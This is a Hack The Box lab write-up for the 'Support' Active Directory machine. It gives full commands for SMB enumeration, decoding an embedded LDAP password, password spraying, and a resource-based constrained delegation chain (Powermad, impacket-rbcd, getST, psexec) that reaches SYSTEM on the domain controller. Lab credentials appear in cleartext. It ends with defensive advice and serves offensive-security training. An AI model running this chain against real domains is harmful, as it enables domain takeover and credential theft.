# HTB - Support

**IP Address:** `10.129.11.142`  
**OS:** Windows / Active Directory (`support.htb` per SMB/LDAP; DC-style services on host)  
**Difficulty:** Easy  
**Tags:** #Windows #ActiveDirectory #SMB #LDAP #Kerberos #evil-winrm #RBCD #BloodHound

---
## Synopsis

Support is an **Active Directory** machine where **SMB** exposes a **`support-tools`** share containing a **.NET** **`UserInfo`** utility. Static analysis recovers **xor/base64** material that decrypts to the **`ldap`** service account password. With **LDAP** access, enumeration surfaces a **cleartext `info`** attribute on the **`support`** user that doubles as a password, yielding **WinRM** as **`support`**. Membership in **Shared Support Accounts** motivates **BloodHound** collection, then **resource-based constrained delegation** abuse: create a **machine account**, set **`msDS-AllowedToActOnBehalfOfOtherIdentity`** on the **DC**, obtain a **service ticket** as **Administrator**, and use **Kerberos** **`psexec`** for **SYSTEM** on the domain controller to read **`root.txt`**.

---
## Skills Required

- `nmap` TCP scanning and interpreting **Windows/AD** service footprints (**DNS**, **Kerberos**, **SMB**, **LDAP**, **WinRM**)  
- **SMB** client enumeration (`smbclient`, `smbmap`) and pulling files from shares  
- Basic **.NET** reversing mindset (strings, **ILSpy**) and short **Python** for decoding  
- **Kerberos** user validation (`kerbrute`), **LDAP** queries (`ldapsearch`), and **RPC** enumeration (`rpcclient`)  
- **WinRM** shells (`evil-winrm`, `crackmapexec winrm`) and **Impacket** Kerberos tooling (`getST`, `psexec`)

## Skills Learned

- Recovering secrets from a **config + binary** pair and **xor**/**base64** patterns in **C#**  
- Mining **LDAP** attributes (e.g. **`info`**) for **credential reuse** across accounts  
- **BloodHound CE** for **AD** attack-path analysis; **`bloodhound-python`** collection from the attacking host  
- **RBCD**: **machine account** creation, **`msDS-AllowedToActOnBehalfOfOtherIdentity`**, **`getST`** with **clock skew** mitigation

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.11.142
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.11.142 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49676,49679,49701,49739 -sC -sV 10.129.11.142 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 53/tcp | domain | DNS |
| 88/tcp | kerberos-sec | Kerberos |
| 135/tcp | msrpc | RPC |
| 139/tcp | netbios-ssn | SMB session service |
| 389/tcp | ldap | LDAP |
| 445/tcp | microsoft-ds | SMB |
| 464/tcp | kpasswd5? | Kerberos password change |
| 593/tcp | ncacn_http | RPC over HTTP |
| 636/tcp | ssl/ldap | LDAPS |
| 3268/tcp | ldap | Global Catalog |
| 3269/tcp | ssl/ldap | GC LDAPS |
| 5985/tcp | http | WinRM HTTP |
| 9389/tcp | mc-nmf | .NET Message Framing / AD web services |
| high TCP | msrpc | dynamic RPC endpoints |

The domain name **support.htb** appears in script/output (per the solved notes).

---
## 2. Service Enumeration

### 2.1 SMB share discovery

**SMB** on **445** is the natural next step: list shares anonymously, then map read/write access before spending time on LDAP.

```bash
smbclient -L 10.129.11.142 -N
```



Identify where anonymous access allows listing or reading:

```bash
smbmap -H 10.129.11.142 -u none
```



**Recovered (relationship):** besides **`IPC$`**, the non-default **`support-tools`** share is reachable (per notes).

---
### 2.2 support-tools share

Connect to **`support-tools`** without a password, pull **`UserInfo.exe.zip`**, and unpack it locally for analysis.

```bash
smbclient //10.129.11.142/support-tools -N
```



Inside the session, download the archive:

```bash
get UserInfo.exe.zip
```

Unpack:

```bash
unzip UserInfo.exe.zip
```



---
### 2.3 UserInfo configuration and strings

Inspect the **.config** for connection strings or secrets, then extract **Unicode** strings from the binary to find **LDAP** references and account hints.

```bash
cat UserInfo.exe.config
```



```bash
strings -e l UserInfo.exe
```



**Recovered (from notes):** references such as **`LDAP://support.htb`**, the username **armando**, material suggesting **`support\ldap`**, and an encoded blob that later maps to the **`ldap`** account.

---
### 2.4 Kerberos user validation

Because **Kerberos (88)** is open, validate suspected usernames with **`kerbrute`**: first a small list containing **`ldap`**, then a broader wordlist.

Create a small `users` file containing `ldap` (per the solved notes), then run:

```bash
kerbrute userenum -d support.htb --dc 10.129.11.142 users
```



Broader enumeration:

```bash
kerbrute userenum -d support.htb --dc 10.129.11.142 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```



---
## 3. Foothold

### 3.1 Recovering ldap credentials from UserInfo

Open **`UserInfo.exe`** in **ILSpy** (or equivalent) and locate the logic behind the encoded value observed in **`strings`**. The solved notes rebuild a short **Python** decoder:





We found a password. Let´s create a decoder in python to obtain the result:

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```



Run the script and capture the **`ldap`** password output:

```bash
python3 decoder.py
```


**Recovered:** save the cleartext password for **`ldap`** (per decoder output in the notes) into **`passwords`** for tooling.

Validate **SMB** authentication for **`ldap`**:

```bash
crackmapexec smb 10.129.11.142 -u 'ldap' -p passwords
```



Check **WinRM** for the same pair (expect no shell if not granted remote access):

```bash
crackmapexec winrm 10.129.11.142 -u 'ldap' -p passwords
```



---
### 3.2 Validating ldap and hunting support

**RPC** allows domain enumeration with **`ldap`** credentials (password on the command line as in the original notes):

```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.129.11.142
# enumdomusers
# enumdomgroups
```



Export usernames for spraying (regex pipeline from notes):

```bash
rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.129.11.142 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' > users
```



Spray the **`ldap`** password across collected users over **SMB**:

```bash
crackmapexec smb 10.129.11.142 -u users -p passwords --continue-on-success
```



Query **LDAP** for the **`support`** user and inspect attributes (notes focus on the **`info`** field):

```bash
ldapsearch -x -H ldap://10.129.11.142 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i "samaccountname: support" -B 40
```


**Recovered (from notes):** the **`info`** attribute contains **`Ironside47pleasure40Watchful`**, treated as **`support`**’s password for validation.

Confirm **WinRM** access for **`support`**:

```bash
crackmapexec winrm 10.129.11.142 -u 'support' -p 'Ironside47pleasure40Watchful'
```



---
### 3.3 Initial shell as support

Open an interactive **WinRM** session as **`support`** and read **`user.txt`**:

```bash
evil-winrm -i 10.129.11.142 -u 'support' -p 'Ironside47pleasure40Watchful'
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Orientation as support

Confirm identity, attempt **Administrator**-only actions if needed, and review group membership (**Shared Support Accounts** in the notes):

```powershell
whoami /groups
```



We need to escalate to **Domain Administrator**. For **AD** environments, **BloodHound** is the best tool to map trust relationships and identify privilege escalation paths.

---
### 4.2 Domain Enumeration with BloodHound

We collect **AD** data from our attacking machine using the **Python**-based collector — no need to upload anything to the victim:

```bash
bloodhound-python -d support.htb -u 'support' -p 'Ironside47pleasure40Watchful' -gc dc.support.htb -c all -ns 10.129.11.142
```



This generates **JSON** files with **AD** relationships (users, groups, computers, domains, etc.).

We start **BloodHound Community Edition** with Docker:

```bash
curl -L https://ghst.ly/getbhce | docker compose -f - up
```



The logs show the initial admin password. We open `http://localhost:8080`, log in, and upload the **JSON** files.

Using the **Pathfinding** feature from `SUPPORT@SUPPORT.HTB` to `ADMINISTRATOR@SUPPORT.HTB`:



The graph supports the privilege path used next (membership and **DC**-object abuse):

1. **support** → MemberOf → **Shared Support Accounts**  
2. **Shared Support Accounts** → effective control over the **domain controller** computer account (abuse path toward **resource-based constrained delegation** / **`msDS-AllowedToActOnBehalfOfOtherIdentity`**)  
3. **Objective** → obtain a **Kerberos** path to act as **Administrator** on **`cifs`** / the **DC** (see **§4.3**–**§4.4**)

---
### 4.3 RBCD setup

Upload **`Powermad.ps1`** (https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1), import it, and create a machine account (notes use **`SERVICEA`** and password **`123456`**):

```powershell
upload Powermad.ps1
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```



Use **PowerView**-style cmdlets (per notes: import PowerView (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1), then):

```powershell
upload PowerView.ps1
Import-Module .\PowerView.ps1
Get-DomainComputer SERVICEA
```



**Prerequisite for `impacket-rbcd -action write`:** the **computer object** **`SERVICEA$`** must **exist in AD** (created by **`New-MachineAccount`** above). If **`Get-DomainComputer SERVICEA`** returns nothing or errors, **stop** — rerun **Powermad** **`New-MachineAccount`** in **WinRM** until it succeeds, then confirm again. **`impacket-rbcd`** looks up **`-delegate-from`** by **sAMAccountName**; **`User not found in LDAP: SERVICEA$`** means the machine account was never created, was deleted, or uses a **different name** (use that exact **`…$`** name in **`-delegate-from`**).

From **Kali**, set **`msDS-AllowedToActOnBehalfOfOtherIdentity`** on the **DC** computer account so **`SERVICEA$`** may delegate to it — use **`impacket-rbcd`**. Authenticate as **`support`**; **`-delegate-to`** is the **DC** **sAMAccountName** (commonly **`DC$`**).

Write **RBCD** (attribute may log as empty before the new **ACE** is merged):

```bash
impacket-rbcd 'support.htb/support:Ironside47pleasure40Watchful' -delegate-to 'DC$' -delegate-from 'SERVICEA$' -action write -dc-ip 10.129.11.142
```

Verify **`SERVICEA$`** is listed:

```bash
impacket-rbcd 'support.htb/support:Ironside47pleasure40Watchful' -delegate-to 'DC$' -action read -dc-ip 10.129.11.142
```



---
### 4.4 Delegation abuse to Administrator

Align **Kali** time with the **DC**, then request a service ticket for **`cifs/dc.support.htb`** as **Administrator** via **S4U** (machine account **`SERVICEA$`** / password **`123456`**). If **`getST`** fails with **clock skew**, rerun **`rdate`** and retry **`getST`**.

```bash
sudo timedatectl set-ntp off
sudo rdate -n 10.129.11.142
```


```bash
impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.129.11.142 support.htb/SERVICEA$:123456
```



Point **Impacket** at the **ccache** (path matches the file **`getST`** writes in the current directory) and open a shell on the **DC**:

```bash
export KRB5CCNAME="$(pwd)/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache"
```

```bash
impacket-psexec -k dc.support.htb
```

If **`psexec`** returns **`Name or service not known`** for **`dc.support.htb`**, map the **DC** in **`/etc/hosts`**, then run **`impacket-psexec`** again:

```bash
echo "10.129.11.142 dc.support.htb support.htb" | sudo tee -a /etc/hosts
```

```bash
impacket-psexec -k dc.support.htb
```



Retrieve **`root.txt`** from **Administrator**’s desktop:

```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate **AD** services; identify **`support-tools`** over **SMB** and domain **support.htb**.  
2. Recover **`ldap`** credentials from **`UserInfo`** via **ILSpy** + **Python** decoding.  
3. Enumerate **RPC**/**LDAP**; recover **`support`**’s password from **`info`**; **WinRM** as **`support`**.  
4. **BloodHound CE** (**`bloodhound-python`** + ingest) to map paths; configure **RBCD** on the **DC** using a created machine account; obtain a **Kerberos** ticket as **Administrator** and **psexec** to **SYSTEM**.

---
## Defensive Recommendations

- Do not store reusable secrets in **LDAP** user attributes (**`info`**, **`description`**, etc.); treat these fields as discoverable by any **LDAP**-authenticated principal with read access.  
- Harden **SMB** shares: avoid anonymous or overly broad read access to **binaries** and **tools** that embed credentials.  
- Audit **RBCD** / **`msDS-AllowedToActOnBehalfOfOtherIdentity`** on **DC** computer objects; restrict who can modify these attributes.  
- Monitor for **machine account** creation and **unusual delegation** changes; correlate with **Kerberos** **`getST`** / **Impacket** patterns.  
- Monitor **WinRM** logons and **BloodHound**-style collection (**`bloodhound-python`**, **SharpHound**, etc.) against domain interfaces.
